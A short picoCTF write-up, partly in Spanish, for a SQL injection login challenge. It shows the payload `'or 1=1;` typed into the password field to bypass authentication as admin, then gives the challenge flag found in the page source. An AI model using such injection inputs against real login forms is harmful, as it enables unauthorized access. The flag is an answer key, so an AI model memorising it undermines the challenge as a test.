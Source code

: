 ## SQLLite

# objetivo
- Can you login to this website? Try to login [here](http://saturn.picoctf.net:64301/).

# Hints
- `admin` is the user you want to login as.

# solucion
``` bash 
username: admin
password: hola mundo
SQL query: SELECT * FROM users WHERE name='admin' AND password='hola mundo'

Login failed.
hacemos una iyeccion para que haga la consulta en la base de datos.

username: admin
password: 'or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1=1;'

Logged in! But can you see the flag, it is in plainsight.
luego inspeccionamos para encontrar la bandera
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>

```
# bandera
- picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}